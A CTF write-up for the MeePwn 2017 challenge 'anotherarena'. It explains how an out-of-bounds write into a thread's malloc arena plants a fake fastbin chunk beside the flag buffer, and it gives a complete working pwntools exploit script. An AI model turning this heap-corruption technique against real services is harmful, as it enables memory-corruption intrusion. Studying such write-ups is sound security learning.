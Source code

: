 ```yaml
---
title: MeePwn CTF 2017 -- anotherarena
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- CTF
- Pwnable
- Python
- MeePwn
- heap
categories:
- write-ups
date: '2017-07-16 11:00:00 +0000'
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, canary & NX enabled, No PIE.  

<!-- more -->


The program is a simple crackme program with multi-thread. First, the program will read the FLAG into a global buffer `flag` . Then, it will ask us to input the size of a buffer. Later the program will use a thread to malloc a buffer `buf` with the given size. Then the program will use another thread to do the following:  
* Ask for a 4 byte data and treat it as `index`
* Ask for a 4 byte data, and store it at `buf[index]`
* Repeat


It will repeat `given_size / 4` times. If the input `index` is larger than the given size, it will also break out the loop. Basically it just letting us input a bunch of integers to the `buf` buffer.  


After that the program will do the following:
```c
/* add all integers in buf to v5*/
for ( i = 0; i < LODWORD(g_size[0]); i += 4 )
    v5 += *(int *)((char *)g_heap_buf + (signed int)i);

/* read size and allocate a buffer ( for license) */
size = read_int();
lic = malloc((unsigned int)size);
/* read to lic */
read(0, lic, (unsigned int)size);
/* crackme check*/
if ( v5 == 3233853430 )
    printf("Good boy! Your license: %s\n", lic);
else
    puts("Bad b0y!");
exit(0);
```

So, to solve this challenge, we'll have to:
* Pass the crackme check ( this is easy )
* **Locate the `lic` buffer at ( or near ) the `flag` buffer**, so later we can leak the flag by print out the license content. We'll focus on this one.


First of all the program has a out-of-bound write vulnerability: by input a **negative** `index`, we can overwrite the data at `buf[-XXX]`.  

Before we use this vulnerability to exploit the service, we'll have to understand how the malloc work in different thread. When a thread wants to malloc a buffer, it will use its own `arena` structure, a data structure which stores the malloc state of that thread ( check out the [source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1648) ). The `arena` structure will also store the fastbin chunks' address ( the `fastbinsY[NFASTBINS]` member ). 

If we can control `fastbinsY[NFASTBINS]`, we'll be able to malloc a fastbin chunk at any address ( theoretically, since we'll still need to bypass some check in malloc ). By using gdb, we can locate the thread `arena`'s address is at `buf - 0x8a0`, making us able to use the OOB write to overwrite its data structure.

Now we'll have to choose our fake chunk's location. I decided to choose the address `0x6020bd`: 

```
gdb-peda$ x/2gx 0x6020bd
0x6020bd:       0xfff7bb5540000000      0x000000000000007f   <-- fake fastbin chunk ( size = 0x70 )
```

We can see that `0x6020bd` is a good target of a fake fastbin[5] chunk ( size = 0x70 ). The `0x7f` is a part of the `stderr` address. Moreover, the `flag` is at `0x602101` ( behind the fake chunk ) , so we can just pad some chars to the allocated chunk ( pad until it reach the beginning of the flag buffer ), later when the program print out the license content, it will give us the flag as well.  

So to sum up:
1. Use the OOB write to overwrite `fastbinsY[5]`
2. Choose the fake fastbin[5] chunk target at `0x6020bd`
3. Input the data to bypass the crackme check
4. Input allocate size to make `malloc()` allocate fastbin[5] ( size = 0x70 )
5. Pad the allocated buffer until it reach the `flag` buffer
6. Print out the license and get the flag

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.241.76"
PORT = 31335
ELF_PATH = "./anotherarena_noalarm"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

flag = 0x602101
fake_chunk = 0x6020bd

def write(off, data):
    r.send(p32(off))
    time.sleep(0.5)
    r.send(p32(data))
    time.sleep(0.5)

if __name__ == "__main__":
    
    r = remote(HOST, PORT)

    r.sendline("50")
    time.sleep(0.5)
    # move the offset to thread's arena + 0x30 ( fastbin[5], size=0x70 )
    # fake chunk near stderr, use its 0x7f to create fake chunk
    write(0xfffff790, fake_chunk)
    # make final answer = 3233853430
    write(0, 0x7fffffff)
    write(4, 0x40c0af8f)
    
    # break loop
    r.send(p32(100)) 
    time.sleep(0.5)
    
    # allocate buf & pad to flag
    r.sendline("104") # allocate 104 byte
    time.sleep(0.5)
    r.send("i"*0x34) # pad to flag

    r.interactive()
```

flag: `MeePwnCTF{oveRwrit3_another_(main)_arena}`